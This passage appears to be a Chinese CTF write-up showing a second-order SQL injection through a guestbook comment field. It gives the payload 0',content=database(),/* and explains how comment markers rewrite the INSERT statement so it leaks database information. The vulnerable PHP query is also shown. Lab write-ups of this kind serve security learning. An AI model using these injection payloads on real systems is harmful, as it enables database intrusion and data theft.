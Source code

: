 我们首先写入留言

```vbnet
0',content=database(),/*
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/12ff088ed1e310a4713cc6f046ca4354.png" alt="" style="max-height:270px; box-sizing:content-box;" />


然后进去提交留言



<img src="https://i-blog.csdnimg.cn/blog_migrate/f1607f1d3b6ce5ec5c1d1fee14010d17.png" alt="" style="max-height:298px; box-sizing:content-box;" />




这个时候就会形成

```bash
   $sql = "insert into comment
            set category = '0',content = database(),/*',
                content = '*/#',
                bo_id = '$bo_id'";
    $result = mysql_query($sql);
 
 
更直观点
 
 
   $sql = "insert into comment
            set category = '0',content = database(),/*',content = '*/#',
                bo_id = '$bo_id'";
 
 
 
/*',content = '*/#'
 
 
这里就为空了 所以现在的语句是
 
set category = '0',content = database(),
                bo_id = '$bo_id'";
 
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/36f21742b19c130486861e869791765f.png" alt="" style="max-height:586px; box-sizing:content-box;" />


然后我们进行查表 发现没有flag

于是我们可以看看user()函数



